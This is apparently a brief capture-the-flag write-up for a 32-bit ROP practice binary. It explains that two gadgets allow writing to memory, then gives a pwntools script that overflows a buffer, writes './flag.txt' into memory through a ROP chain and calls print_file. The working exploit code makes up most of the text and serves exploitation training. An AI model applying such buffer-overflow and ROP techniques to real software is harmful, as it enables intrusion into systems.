


theres a function named print_file in the plt section




there are also two particular gadgets that let us write into memory

so in this challenge, we just need to write into the memory and call print_file

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./write432")

context.binary = exe
context.log_level = "debug"

script = '''
b*pwnme+150
c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    pop_edi_pop_ebp=0x080485aa
    movIediI_ebp=0x08048543
    buffer=b"A"*0x2c

    payload=flat(
        buffer,

        pop_edi_pop_ebp,
        0x804a800,
        0x6C662F2E,
        movIediI_ebp,

        pop_edi_pop_ebp,
        0x804a804,
        0x742E6761,
        movIediI_ebp,

        pop_edi_pop_ebp,
        0x804a808,
        0x7478,
        movIediI_ebp,

        exe.plt["print_file"],
        0,
        0x804a800
    )

    time.sleep(0.1)
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```